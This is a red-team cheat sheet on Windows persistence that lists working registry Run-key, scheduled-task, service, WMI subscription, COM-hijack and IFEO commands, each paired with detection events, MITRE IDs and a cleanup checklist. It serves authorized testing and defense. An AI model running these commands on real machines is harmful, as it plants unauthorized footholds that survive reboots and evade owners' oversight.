

# Persistence — Windows

Authorized engagements. MITRE TA0003 filtered platform=Windows: https://attack.mitre.org/tactics/TA0003/.

Default assumption: EDR present, Sysmon deployed with SwiftOnSecurity config or better, AppLocker or WDAC in audit mode minimum.

## Selection



## 1. Registry Run keys

User-level, no admin required:

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\Users\u\AppData\Local\u.exe" /f
```

Machine-level (admin):

```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\Windows\System32\u.exe" /f
```

Variants: `RunOnce`, `RunOnceEx`, `RunServices`, `RunServicesOnce`, policies `...\Policies\Explorer\Run`.

Detection: Sysmon event 13 (registry value set), Autoruns (`autorunsc.exe -a lr`), Sigma rules under `rules/windows/registry/`.

MITRE: T1547.001.

## 2. Scheduled tasks

User context:

```
schtasks /create /sc MINUTE /mo 60 /tn "Updater" /tr "C:\Users\u\AppData\Local\u.exe" /rl LIMITED /f
```

SYSTEM (admin):

```
schtasks /create /sc ONSTART /tn "\Microsoft\Windows\Maintenance\HealthCheck" /tr "C:\Windows\u.exe" /ru SYSTEM /rl HIGHEST /f
```

PowerShell variant (`New-ScheduledTask`, `Register-ScheduledTask`) supports triggers that schtasks doesn't: logon, event, IPC idle. Example trigger on event ID 4624:

```powershell
$A = New-ScheduledTaskAction -Execute 'C:\Windows\u.exe'
$T = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName 'HealthCheck' -Action $A -Trigger $T -User 'SYSTEM' -RunLevel Highest
```

Detection: Event IDs 4698 (created), 4702 (updated); file path `C:\Windows\System32\Tasks\` — XML audit.

MITRE: T1053.005.

## 3. Services

```
sc.exe create Updater binPath= "C:\Windows\u.exe" start= auto
sc.exe description Updater "Windows update helper"
sc.exe start Updater
```

Service DLL variant (svchost hosted):

```
reg add HKLM\System\CurrentControlSet\Services\Updater\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Windows\u.dll" /f
```

Detection: Event 7045 (service installed), Event 4697 (Security log), Sysmon 12/13 on `HKLM\System\CurrentControlSet\Services\*`.

MITRE: T1543.003.

## 4. WMI event subscriptions

Three objects: `__EventFilter`, `CommandLineEventConsumer` (or `ActiveScriptEventConsumer`), `__FilterToConsumerBinding`. Requires admin.

PowerShell (modern, PSv5+):

```powershell
$Filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property @{
  Name='UpdaterFilter'; EventNameSpace='root\cimv2';
  QueryLanguage='WQL';
  Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}
$Consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property @{
  Name='UpdaterConsumer'; ExecutablePath='C:\Windows\u.exe'; CommandLineTemplate='C:\Windows\u.exe'
}
New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{Filter=[ref]$Filter; Consumer=[ref]$Consumer}
```

Detection: Sysmon events 19/20/21 (WmiEventFilter/Consumer/Binding). SwiftOnSecurity config covers these.

MITRE: T1546.003.

## 5. COM hijacking

Redirect a COM class's `InprocServer32` (or `LocalServer32`) to an attacker DLL. Most reliable for user-scope persistence that survives updates.

```
reg add "HKCU\Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}\InprocServer32" /ve /d "C:\Users\u\h.dll" /f
reg add "HKCU\Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}\InprocServer32" /v ThreadingModel /d Apartment /f
```

CLSID above is an example — pick one referenced by a frequently-used host. Enigma0x3's research: https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/ and https://enigma0x3.net/2016/05/25/userland-persistence-with-scheduled-tasks-and-com-handler-hijacking/.

Tooling / enumeration: `acCOMplice` https://github.com/nccgroup/ACE/tree/main/acCOMplice, or `procmon` to observe which CLSIDs missing-DLL-on-load.

Detection: Sysmon 12/13 on `HKCU\Software\Classes\CLSID\*\InprocServer32`, Autoruns COM tab. MITRE: T1546.015.

## 6. Startup folder

```
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
%ProgramData%\Microsoft\Windows\Start Menu\Programs\StartUp
```

Drop `.lnk` or `.exe`. Noisy and well-catalogued. MITRE: T1547.001.

## 7. Image File Execution Options (IFEO)

Debugger hijack — whenever target binary launches, Windows runs the "Debugger" instead.

```
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /t REG_SZ /d "C:\Windows\u.exe" /f
```

Also `SilentProcessExit` key with `MonitorProcess`. Detection: Sysmon 12/13. MITRE: T1546.012.

## 8. Winlogon / Userinit / Shell

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`:

- `Userinit` — comma-separated list, default `C:\Windows\system32\userinit.exe,`
- `Shell` — default `explorer.exe`
- `Notify` key

Append attacker binary. High-signal; any change here is flagged. MITRE: T1547.004.

## 9. AppInit_DLLs / AppCertDLLs

Largely dead on modern Windows with Secure Boot / signed-only DLL requirement. Disabled by default since Windows 8. Skip.

## 10. Security Support Provider / LSA

Registering a rogue SSP requires PPL bypass on modern Windows. Noisy and mostly of historical interest. MITRE: T1547.005.

## Cleanup checklist

- Remove added run-key / run-once entries
- `schtasks /delete /tn <name> /f`
- `sc.exe delete <service>`
- Remove WMI filter/consumer/binding (mofcomp cleanup or PowerShell `Remove-CimInstance`)
- Restore any hijacked COM CLSID registry keys
- Remove startup-folder artefacts
- Record all removals with timestamps

## Hunting / detection stack

- Autoruns (Sysinternals) — https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns
- Sysmon + SwiftOnSecurity config — https://github.com/SwiftOnSecurity/sysmon-config
- Sigma Windows rules — https://github.com/SigmaHQ/sigma/tree/master/rules/windows
- PersistenceSniper (PS module) — https://github.com/last-byte/PersistenceSniper
- Hunt-Sleeping-Beacons — https://github.com/thefLink/Hunt-Sleeping-Beacons

## References

- MITRE ATT&CK Persistence — https://attack.mitre.org/tactics/TA0003/
- HackTricks Windows persistence — https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html
- SpecterOps posts on COM/WMI — https://posts.specterops.io/
